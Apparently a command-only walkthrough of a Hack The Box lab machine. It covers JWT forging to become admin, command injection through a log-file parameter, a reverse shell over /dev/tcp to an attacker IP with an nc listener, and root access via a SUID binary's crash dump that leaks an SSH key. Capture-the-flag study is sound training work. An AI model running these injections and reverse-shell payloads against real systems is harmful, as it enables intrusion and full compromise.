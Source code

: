 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)


---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```
```bash
curl http://10.10.11.120
curl http://10.10.11.120/download/files.zip
```

## 🕵️ JWT Registration & Login
```bash
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
```
```bash
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```

## 📁 [Directory Discovery](HTTP.md)
```bash
feroxbuster -u http://10.10.11.120
```

## 🔐 JWT Analysis
```python
import jwt
token = '...'
secret = '...'
jwt.decode(token, secret)
```

## 🧪 JWT Forging
```python
j = jwt.decode(token, secret)
j['name'] = 'theadmin'
jwt.encode(j, secret)
```

## 🚨 Command Injection Test
```bash
curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```

## ⚙️ Gaining Reverse Shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```
```bash
nc -lnvp 443
```

## 🔼 Shell Upgrade
```bash
script /dev/null -c bash
[CTRL+Z]
stty raw -echo; fg
reset
screen
```

## 📄 Privilege Escalation via SUID FD Leak
```bash
./count
[CTRL+Z]
ls -l /proc/$(pidof count)/fd
```

## 💥 Exploiting Crash Dump
```bash
./count
[CTRL+Z]
kill -SIGSEGV $(pidof count)
apport-unpack _opt_count.1000.crash /tmp/0xdf
strings -n 30 /tmp/0xdf/CoreDump | less
```

## 🔑 [SSH](SSH) as Root
```bash
ssh -i root_id_rsa root@10.10.11.120
```